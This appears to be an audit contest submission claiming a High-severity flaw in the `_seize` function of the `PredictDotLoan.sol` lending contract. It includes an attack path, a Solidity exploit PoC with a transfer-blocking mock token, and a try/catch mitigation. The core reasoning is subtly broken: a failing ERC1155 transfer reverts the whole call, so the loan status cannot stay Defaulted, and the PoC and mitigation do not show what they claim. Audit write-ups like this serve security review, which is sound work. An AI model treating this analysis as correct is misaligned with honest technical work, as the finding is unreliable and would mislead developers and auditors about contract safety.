 Kind Aqua Ostrich

High

# Unchecked transfer operations in the `_seize` function will leave the lender without the collateral in `PredictDotLoan.sol`

### Summary

Unchecked transfer operations in the `_seize` function in `PredictDotLoan.sol` will leave the lender without the collateral.

### Root Cause

In the _seize function, the collateral is transferred to the lender when the loan is defaulted. However, the `safeTransferFrom` call to transfer collateral does not check for successful execution. If the transfer fails, the loan status is still updated to `Defaulted`, potentially leaving the lender without the collateral.
https://github.com/sherlock-audit/2024-09-predict-fun/blob/main/predict-dot-loan/contracts/PredictDotLoan.sol#L877-L883
An attacker (borrower) could intentionally cause the transfer of collateral to fail (for example, by pausing the CTF token contract or blocking the token transfer). Even though the transfer fails, the loan’s status would still be set to `Defaulted`, and the borrower could avoid losing their collateral while the lender would receive no compensation.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The borrower takes out a loan.
2. The lender calls the `_seize` function to claim the collateral when the borrower defaults.
3. The token transfer fails due to a manipulated or paused token contract.
4. Despite the failure of the token transfer, the loan status is updated to `Defaulted`, causing the lender to lose the collateral and the borrower retains their assets.

In PoC below:
Malicious token contract (`MaliciousToken`):
1. The `MaliciousToken` contract is a mock implementation of an ERC1155 token. It has a `blockTransfers` flag that can be set to block any token transfers by causing the `safeTransferFrom` function to revert.
2. When `blockTransfers` is set to true, any attempt to transfer tokens will fail with a "Transfers are blocked!" error.

Seize exploit contract (`SeizeExploit`):
1. This contract interacts with the vulnerable loan contract.
2. The `exploitSeize` function blocks token transfers by setting blockTransfers to `true` in the `MaliciousToken` contract.
3. It then calls the `_seize` function on the vulnerable loan contract, which will attempt to transfer the collateral but fail due to the blocked transfer.
4. Despite the failure, the loan's status will be updated to `Defaulted`, allowing the borrower to retain their collateral without paying off the loan.

### Impact

The lender loses the collateral while the borrower still retains control of the assets, resulting in a significant financial loss for the lender.
The protocol's integrity is compromised as loan statuses do not reflect the actual transfer of collateral, leading to systemic financial risks.

### PoC

```solidity
// Mock token contract that will reject transfers
contract MaliciousToken is ERC1155 {
    bool public blockTransfers = false;

    function setBlockTransfers(bool _block) external {
        blockTransfers = _block;
    }

    // Override transfer function to fail when blockTransfers is true
    function safeTransferFrom(
        address from,
        address to,
        uint256 id,
        uint256 amount,
        bytes memory data
    ) public override {
        require(!blockTransfers, "Transfers are blocked!");
        super.safeTransferFrom(from, to, id, amount, data);
    }
}

// PoC contract to exploit the vulnerability
contract SeizeExploit {
    LoanContract loanContract;   // Assume this is the vulnerable contract
    MaliciousToken maliciousToken; // The token used for collateral

    constructor(address _loanContract, address _maliciousToken) {
        loanContract = LoanContract(_loanContract);
        maliciousToken = MaliciousToken(_maliciousToken);
    }

    function exploitSeize(uint256 loanId) external {
        // Step 1: Block the transfer of collateral
        maliciousToken.setBlockTransfers(true);

        // Step 2: Call the seize function to default the loan
        loanContract.seize(loanId);  // This will fail to transfer but still mark the loan as defaulted

        // Step 3: The loan is marked as Defaulted, but the collateral is not transferred
    }
}
```

### Mitigation

The transfer should be wrapped in a `try/catch` block or its return value should be checked to ensure the state is only updated after a successful transfer. Here’s an example mitigation:
```solidity
function _seize(uint256 loanId, Loan storage loan) private {
    loan.status = LoanStatus.Defaulted;

    try CTF.safeTransferFrom(address(this), msg.sender, loan.positionId, loan.collateralAmount, "") {
        emit LoanDefaulted(loanId);
    } catch {
        revert("Collateral transfer failed, loan not defaulted");
    }
}
```
With this mitigation, the loan status will only be marked as `Defaulted` if the collateral transfer succeeds.